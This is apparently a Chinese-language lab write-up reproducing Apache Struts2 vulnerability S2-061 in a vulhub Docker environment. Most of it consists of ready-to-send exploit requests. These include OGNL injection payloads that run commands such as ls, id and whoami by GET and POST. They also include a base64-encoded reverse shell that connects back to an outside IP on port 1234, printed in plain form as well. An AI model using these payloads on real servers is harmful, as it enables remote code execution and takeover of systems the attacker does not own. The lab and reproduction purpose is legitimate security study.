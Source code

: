 # 0x00 软件介绍
struts2：面向java ee的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

EXP1（验证漏洞是否存在）：
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  
![image](./0.png)

对于命令执行，目前网上有2种利用方式

EXP2（第一种利用方式执行命令ls）：
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./1.png)

EXP3（第二种利用方式执行命令id）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./2.png)

EXP4（也可以get方式执行命令）：  
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  
![image](./3.png)  
EXP5（使用第一种利用方式反弹shell）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
![image](./4.png)  
成功反弹shell，如下图  
![image](./5.png)  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
